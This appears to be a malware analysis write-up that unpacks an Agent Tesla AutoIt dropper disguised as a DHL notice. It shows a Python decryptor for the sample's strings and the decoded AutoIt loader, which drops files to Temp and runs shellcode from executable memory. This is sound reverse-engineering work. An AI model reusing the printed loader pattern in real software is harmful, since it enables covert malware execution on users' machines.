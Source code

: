 ## Agent Tesla AutoIt Deobfuscation

Just a demo on how to unpack Agent Tesla AutoIt compiled executables.

SHA256: afec7242f5c41610ecb994d22fc8243a58866ed6c4c11a1544cca10019fe0a07

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/2414e7d0-34ff-4faf-9654-36835806c848)

`DHL Arrival Notice.exe` looks like a compiled AutoIt script, as Detect-It-Easy suggested and mentions of it in IDA.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/0e9969d7-c123-4909-97c8-0c0005f572ff)

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/0441a4af-9d33-4739-b074-52c1136c7520)

[Exe2Aut](https://exe2aut.com/exe2aut-converter/) is able to decompile this back into a .au3 file for easier analysis. But the script still looks highly obfuscated, with 2655 lines of code.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/1a770cc7-636d-43fe-8019-457ef68f2c32)

Majority of the contents especially the for-loop construts in the middle are dummy code. 

We can see 2 embedded files `renowner` and `palladize` are extracted and moved into the user’s Temp directory. 

I opened them up in HXD, `palladize` looks weird, and `renowner` looks like encrypted.

There’s a few reference to the function `x30qqzpyj` which looks like it is being used for string decryption, since the return values are used as parameters to calls like `Execute`, `DllCall`, etc. 

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/33f46e0d-e2cd-42f0-8c78-59e795846bd1)

We can try to translate this function into Python, simulate and print out the results of the decryption for every call we see to it in the script:

```python
import re

def x30qqzpyj(p, b):
    d = len(b)
    v = len(p)
    k = [None] * v
    a = [None] * v
    m = ""

    for h in range(1, v + 1):
        k_index = (ord(b[(h - 1) % d]) * h % v)
        while k[k_index] is not None:
            k_index = (k_index + 1) % v
        k[k_index] = h - 1
    
    for h in range(1, v + 1):
        a[k[h - 1]] = p[h - 1]
    
    m = "".join(a)
    
    # XOR encryption
    j = ""
    for h in range(1, len(m) + 1):
        t = ord(m[h - 1])
        m_ord = ord(b[(h - 1) % d])
        j += chr((t - 5) ^ m_ord)
    
    return j

file_content = ""
with open("afec7242f5c41610ecb994d22fc8243a58866ed6c4c11a1544cca10019fe0a07.au3", "r") as file:
    file_content = file.read()

# Regex to find function calls
pattern = r"x30qqzpyj\((\".*?\"),\s*(\".*?\")\)"
matches = re.findall(pattern, file_content)

# Execute the function with the parameters found
for match in matches:
    param1 = match[0].strip("\"")  # Remove the double quotes if necessary
    param2 = match[1].strip("\"")
    result = x30qqzpyj(param1, param2)
print(f"Parameters: {param1}, {param2} -> Result: {result}")
```

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/fe861d58-bb1b-4f3a-a3d3-8c7efeaf7c68)

Sweet! Now we can plug them into the .au3 script.

```au3
FileInstall("renowner", @TempDir & "\renowner", 1)
FileInstall("palladize", @TempDir & "\palladize", 1)
Global $o30ytu4gil = Execute('FileRead(FileOpen(@TempDir  & "\palladize"))')
$o30ytu4gil = Execute('StringReplace($O30ytU4giL, "8D6804F867D7E3ED21599F86932DA5673082A29A59B06B261C54E6F1DF089BBB368C973697738FDC88", "")')
$l33eqfulh = DllCall("kernel32", "ptr", "VirtualAlloc", "dword", 0, "dword", BinaryLen($o30ytu4gil), "dword", 0x3000, "04"), "dword", 0x40)
$l33eqfulh = $l33eqfulh[0]
$b374rm9zkrm = DllStructCreate([ & BinaryLen($o30ytu4gil) & ], $l33eqfulh)
DllStructSetData($b374rm9zkrm, 1, $o30ytu4gil)
DllCallAddress("int", $l33eqfulh + 9136)
```

We can see that the beginning of the `palladize` file which starts with `8D6804F867D7E3ED21599F86932DA5673082A29A59B06B261C54E6F1DF089BBB368C973697738FDC88` is removed entirely. Then, a memory allocation with  `PAGE_EXECUTE_READWRITE` permissions, a structure created at the allocated memory address, storing the binary data of `$o30ytu4gil`. Then, it looks like it is calling a function at offset `9136` or `0x23B0`of the memory allocation, so `palladize` probably shellcode. 
Here's what `palladize` looks like with the bytes at the beginning removed:

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/298bbbac-29ab-4295-a4d6-85d952f60889)

Looks like the decoded text is still in hex representation. We can convert them into actual hex values first and then open it up in IDA. The entry point would be at offset `0x23B0`.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/b6fe5545-8b25-4a61-bbe4-abc15bde457f)

Right away, there is a reference to the other file `renower`, which was dropped in the Temp directory. A constant that looks like a key is also copied into `v9`, and passed into `sub22E0`. `sub22E0` just looks like a simple XOR decryption loop. 

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/10a63792-7e4e-460d-a057-1bc5dd72b653)

There are a bunch of API resolving routines before this, but we can just assume that the file `renowner` can be decrypted with the key. Sure enough, it’s another MZ file! DIE recognized it as a .NET file.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/f03979a2-89e8-42c4-96ea-748df8254cb0)

Saving the file and opening up in dnSpy, we can see the code for Agent Tesla, some keylogging capabilities:

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/7068ed61-f839-4661-b5b3-78c7e08bcf25)

And its config in the `Stu4Un2` class, where data is exfiltrated via SMTP.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/a41bcec9-f3df-4cf3-92b4-ab18386d3b2a)
